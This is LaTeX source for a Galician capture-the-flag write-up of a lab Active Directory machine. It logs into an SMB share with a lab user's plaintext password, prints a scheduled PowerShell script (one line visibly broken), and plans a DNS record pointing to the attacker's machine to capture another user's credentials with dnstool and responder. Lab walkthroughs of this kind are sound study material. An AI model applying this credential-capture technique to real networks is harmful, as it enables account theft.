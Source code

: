 \documentclass[a4paper]{article}
\newcommand{\ipLocal}{10.10.14.12}
\begin{document}
Investigamos nos recursos compartidos do usuario \textbf{Tiffany.Molina}:
        \begin{lstlisting}[language=Bash, caption=Powershell]
$ smbclient -U'template.htb/Tiffany.Molina%NewTemplateCorpUser9876'  //10.10.10.248/IT
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Apr 19 07:50:55 2021
  ..                                  D        0  Mon Apr 19 07:50:55 2021
  downdetector.ps1                    A     1046  Mon Apr 19 07:50:55 2021

		3770367 blocks of size 4096. 1265474 blocks available
smb: \> get downdetector.ps1
getting file downdetector.ps1 of size 1046 as downdetector.ps1 (2,3 KiloBytes/sec) (average 2,3 KiloBytes/sec)
smb: \> exit\end{lstlisting}


        \begin{lstlisting}[language=Bash, caption=downdetector.ps1: user Ted.Graves, linewidth=17.7cm]
$ cat downdetector.ps1
# Check web server status. Scheduled to run every 5min
Import-Module ActiveDirectory
foreach($record in Get-ChildItem "AD:DC=template.htb,CN=MicrosoftDNS,DC=DomainDnsZones,DC=template,DC=htb" | 
Where-Object Name -like "web*")  {
try {
$request = Invoke-WebRequest -Uri "http://$($record.Name)" -UseDefaultCredentials
if(.StatusCode -ne 200) {
Send-MailMessage -From 'Ted Graves <Ted.Graves@template.htb>' -To 'Ted Graves <Ted.Graves@template.htb>' 
-Subject "Host: $($record.Name) is down"
}
} catch {}
}\end{lstlisting}             

Vendo o contido de \textbf{downdetector.ps1} parece que dalgunha forma se facemos que un \textbf{rexistro dns} veña á nosa máquina enviaramos as credenciais do usuario \textbf{Ted Graves}. Agora, como facer iso do dns?
        
        \clearpage
        \subsubsection{Xerar entrada DNS}                                                                                                               
Imos xerar unha entrada dns para que apunte á nosa máquina \ipLocal mediante: dnstool + responder
        \begin{tcolorbox}[enhanced,attach boxed title to top center={yshift=-3mm,yshifttext=-1mm},
  colback=blue!5!white,colframe=blue!75!black,colbacktitle=green!80!black,
  title=De Interese: dnstool,fonttitle=\bfseries,
  boxed title style={size=small,colframe=red!50!black} ]
        \centering
\$ git clone https://github.com/dirkjanm/krbrelayx.git\end{tcolorbox}
\end{document}

